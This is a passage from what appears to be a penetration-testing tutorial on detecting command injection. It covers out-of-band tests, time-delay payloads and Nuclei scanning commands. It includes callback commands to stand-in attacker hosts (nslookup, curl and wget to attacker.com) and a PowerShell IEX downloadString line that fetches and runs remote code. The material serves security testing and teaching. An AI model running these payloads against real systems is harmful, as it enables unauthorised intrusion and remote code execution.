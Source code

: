 #### Out-of-Band Tests

Tests command injection through external interaction detection:

```bash
# DNS based detection
nslookup uniquestring.attackerdomain.com  # Generates DNS lookup
ping uniquestring.attackerdomain.com      # ICMP based detection
dig uniquestring.attackerdomain.com       # DNS query tool

# HTTP based detection
wget http://attacker.com/uniquestring     # Generates HTTP GET
curl http://attacker.com/uniquestring     # Alternative HTTP request
powershell IEX(New-Object Net.WebClient).downloadString('http://attacker.com') # PowerShell web request
```

#### Time-Based Tests

Verifies command execution through time delays:

```bash
# Linux delay commands
ping -c 10 127.0.0.1    # 10 second delay using ping
sleep 10               # Direct delay command
perl -e "sleep 10"     # Perl based delay
python -c "import time; time.sleep(10)"  # Python delay

# Windows delay commands
ping -n 10 127.0.0.1   # Windows ping delay
timeout 10             # Windows timeout command
Start-Sleep -s 10      # PowerShell sleep
```

### Automated Discovery

#### Using Nuclei

To learn how to use Nuclei in detail, you can go to our related tactic page by [click here](https://hackviser.com/tactics/tools/nuclei).

```bash
# Run command injection templates
nuclei -u http://target.com -t cmd-injection/

# Run with custom templates
nuclei -u http://target.com -t custom-cmd.yaml

# Severity based scanning
nuclei -u http://target.com -t cmd-injection/ -severity critical,high
```

## Attack Vectors
